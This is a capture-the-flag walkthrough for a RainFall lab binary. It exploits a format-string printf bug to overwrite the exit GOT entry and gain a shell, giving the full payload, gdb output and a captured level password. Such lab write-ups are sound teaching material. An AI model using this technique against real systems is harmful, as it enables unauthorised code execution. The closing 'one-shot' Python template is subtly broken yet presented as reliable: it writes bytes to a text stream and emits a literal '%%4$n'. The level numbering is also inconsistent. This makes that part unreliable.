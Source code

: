 # RainFall — Level 4 Walkthrough (printf/GOT overwrite)

> Context: `level5` binary (no RELRO, no canary, NX disabled, no PIE). Goal is to pop a shell (function `o`) even though the program calls `exit` from `n`. We’ll abuse a format-string bug in `printf` to overwrite `exit@GOT` with the address of `o`.

---

## 1) Quick recon

```bash
$ file ./level5
$ checksec ./level5
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE
```

Run it:

```bash
$ ./level5
sdfsdf
sdfsdf

$ ./level5
aaaa %p %p %p
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0
```

It **echoes with `printf`** using our input as the *format string* → classic format-string vulnerability.

---

## 2) What does the code do?

Disassemble:

```bash
$ gdb ./level5
(gdb) info functions
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) disas main
0x08048504 <+0>: call 0x80484c2 <n>

(gdb) disas n
0x080484c2 <+0>:   ...
0x080484e5 <+35>:  call fgets
0x080484f3 <+49>:  call printf        ; uses our input as format string
0x080484f8 <+54>:  movl $0x1,(%esp)
0x080484ff <+61>:  call exit          ; program terminates here
```

So `n()` reads a line, **printfs it** (format string bug), then **calls `exit`**.

`o()` is our “win” function:

```bash
(gdb) disas o
0x080484a4 <+0>:  system(0x80485f0)   ; "/bin/sh" string
0x080484bd <+25>: _exit(1)
```

Plan: **overwrite `exit@GOT`** to point at `o`. When `n` calls `exit`, we’ll jump to `o` instead and get a shell.

---

## 3) Leak stack layout to find our arg index

We want to know which **positional specifier** (`%4$n`, `%5$n`, …) will reference a pointer we control.

```bash
$ python -c 'print "aaaa" + " %p" * 10' > /tmp/explo
$ ./level5 < /tmp/explo
aaaa 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161 0x20702520 0x25207025 ...
```

Notice `0x61616161` (= `'aaaa'`) appears as the **4th** printed pointer after the three fixed values.
Therefore, **our first 4 bytes** (from the input buffer) are available to `printf` as the **4th variadic argument** → we’ll use **`%4$n`**.

---

## 4) Find the addresses

* **GOT entry of `exit`:**

```bash
$ objdump -R ./level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```

We’ll target: `exit@GOT = 0x08049838`.

* **Address of `o`:** from `gdb`: `o = 0x080484a4`.

We want to write the 32-bit value **`0x080484a4`** into memory at **`0x08049838`**.

---

## 5) Build the format string payload

Format-string trick:

* Put the **target address** at the start of the input so it sits where `printf` will fetch the 4th argument.
* Print **N characters**, then use **`%4$n`** to write that count to the address pointed to by the 4th argument.
* Choose **N = 0x080484a4 (decimal 134,513,828)**, adjusted for whatever bytes `printf` has already emitted before `%d`.

Working payload from your session:

```bash
$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/explo
```

Notes:

* `\x38\x98\x04\x08` is **little-endian** `0x08049838` (the GOT address for `exit`).
* We used `%134513824d` so that **total chars printed** at the moment of `%4$n` equals (in this runtime) the target value `0x080484a4`.
  Minor off-by-few adjustments are **normal** because some leading bytes (like the ASCII `'8'` from `0x38`) get printed and counted. If your value is off, tweak the number.

---

## 6) Trigger the overwrite and get a shell

Run the program with the crafted input:

```bash
$ ./level5 < /tmp/explo
```

Now the GOT slot for `exit` points to `o`. The next `exit()` from `n` actually calls `o` → `system("/bin/sh")` drops a shell under `level6`.

Use the implicit shell:

```bash
$ whoami
level6
$ cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

---

## 7) Why this works (quick recap)

* **Vuln:** `printf(user_input)` (format string) lets us read/write arbitrary memory with `%p`, `%n`, etc.
* **No RELRO** means **GOT is writable** at runtime.
* **Overwrite `exit@GOT` → `o`** using `%n`.
* When `n()` calls `exit`, control flow diverts to `o()` → `system("/bin/sh")` → shell.

---

## 8) Troubleshooting tips

* If the program exits without shell: your write likely missed. Re-check:

  * Correct GOT entry (use `objdump -R`).
  * Correct target address of `o`.
  * Correct **positional index** for `%n` (here it’s `%4$n` because our data showed up as the 4th argument).
  * Adjust the decimal padding by a small amount (± a few) until the write lands exactly.
* If the program crashes immediately, you might be writing an impossible value or to the wrong place.
* If blocked by `Permission denied` writing to `/tmp/expl`, use a different filename (you used `/tmp/explo`, which worked).

---

## 9) One-shot payload template (adapt as needed)

```bash
python - <<'PY' > /tmp/explo
import sys
# Addresses for THIS binary/environment:
exit_got = 0x08049838
o_addr   = 0x080484a4          # target value to write
# Adjust padding if needed after testing
padding  = 134513824           # tuned so total printed bytes == o_addr
sys.stdout.write(exit_got.to_bytes(4,'little'))
sys.stdout.write("%%%dd" % padding)
sys.stdout.write("%%4$n")
PY

./level5 < /tmp/explo
```

That’s it. Clean, reliable GOT overwrite → shell → grab the next password.

